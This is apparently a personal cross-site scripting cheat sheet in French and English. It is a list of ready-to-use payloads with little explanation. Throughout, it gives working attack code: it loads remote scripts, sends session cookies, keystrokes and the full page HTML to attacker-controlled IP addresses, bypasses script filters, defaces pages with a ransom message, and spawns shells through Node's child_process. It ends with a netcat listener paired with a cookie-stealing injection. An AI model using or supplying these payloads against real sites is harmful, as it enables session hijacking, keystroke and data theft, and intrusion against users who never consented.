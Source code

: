 
- https://github.com/payloadbox/xss-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

Load remote script

```html
<script src="http://192.168.45.128/xss.js"></script>
```

Bypasser le mot script filter

```html
<sscriptcript>alert('berty');</sscriptcript>
```

Send Cookie details to us: Session-Hijacking

```js
new Image().src = "http://192.168.75.137/xss.php?cookie="+ escape(document.cookie);
```

```js
fetch("http://192.168.45.128/xss.php?cookie=" + btoa(document.cookie));
```


Rediriger l'utilisateur vers un autre site

```js
window.location.replace("https://otherwebsite.com");
```

Modifier la page actuel

```js
document.body.innerHTML = "<center><br><br><br><h1>Oh noez, your are haxed! Send bitcoins quick!</h1></center>";
```

Enregistreur de frappe | Key Logger

```js
document.onkeypress = function(c){ fetch("http://192.168.100.129/?k="+ String.fromCharCode(c.which)); }
document.onkeypress = function(e){ fetch('http://192.168.75.137/log?key=' + btoa(e.key) );}
```

HTML2Canvas

```js
fetch("http://192.168.100.129/?dom="+btoa(document.documentElement.outerHTML));
```

Recuperer le navigateur client

```js
fetch("http://192.168.75.137/?nav="+navigator.userAgent);
```

Polyglottes

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('berty') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('berty')//>\x3e
```

XSS => RCE

```js
var sys = require('sys');
var exec = require('child_process').exec;
exec("C:\\Windows\\System32\\cmd.exe", function(error, stdout, stderr){ sys.puts(stdout) });
exec("/bin/bash", function(error, stdout, stderr){ sys.puts(stdout) });
```

# DOM

```html
<iframe src="javascript:alert(document.domain)">

<img src=x onerror="alert(document.domain)">
"><img src=x onerror=prompt(document.domain);>
#"><img src=/ onerror=alert(document.cookie)>

<svg/onload="alert(document.domain)">
xss">< ! --><svg/onload=alert(document.domain)>

```



```html
nc -nlvp 9001


</textarea><script>fetch('http://10.11.86.29:9001?cookie=' + btoa(document.cookie) );</script>
```


```sh
python xsstrike.py -u "http://$TARGET:$PORT/index.php?task=test"
```